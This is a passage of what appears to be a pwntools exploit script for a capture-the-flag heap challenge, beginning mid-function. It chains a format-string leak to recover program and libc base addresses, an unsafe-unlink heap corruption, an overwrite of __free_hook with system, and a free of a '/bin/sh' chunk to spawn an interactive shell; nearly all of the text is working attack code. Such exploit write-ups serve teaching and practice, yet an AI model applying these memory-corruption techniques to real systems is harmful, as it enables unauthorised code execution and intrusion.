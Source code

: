 ```py
    p.sendline('4')
    p.recvuntil("Enter an index:\n")
    p.sendline(str(index))
    p.recvuntil("Enter the content: \n")
    p.send(content)

def Delete(index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil("Enter an index:\n")
    p.sendline(str(index))

def exp():

    p.recvuntil("Enter your name: ")
    p.sendline("%22$p%15$p")
    p.recvuntil("Hello, ")
    #
    p.recvuntil("0x")
    proc_base = int(p.recvuntil("0x",drop=True),16) - 0x980
    log.success("proc base => " + hex(proc_base))
    #
    libc_base  = int(p.recvline().strip("\n"),16) - 240 - libc.sym['__libc_start_main']
    libc.address = libc_base
    log.success("libc base => " + hex(libc_base))
    #unlink
    Add(0,0x88,'0\n')
    Add(1,0x88,'0\n')
    Add(2,0xf8,'0\n')
    Add(3,0x88,'0\n')
    Delete(1)
    Add(1,0x88,'1'*0x80+p64(0x110)+'\x00')
    fd = proc_base + 0x202060 - 0x18
    bk = proc_base + 0x202060 - 0x10
    Edit(0,p64(0)+p64(0x21)+p64(fd)+p64(bk)+p64(0x20)+'\n')

    Delete(2)
    Add(5,0x90,'/bin/sh\n')
    Edit(0,p64(0)*3+p64(libc.sym['__free_hook'])+p64(0x120)+'\n')
    Edit(0,p64(libc.sym['system'])+'\n')
    #Edit(0,chr(0x2b)+'\n')


    #gdb.attach(p)
    #Edit(0,p64(0x2b)+p64(0)*3+p64(libc.sym['__free_hook'])+'\n')
    Delete(5)

    p.interactive()

exp()

```
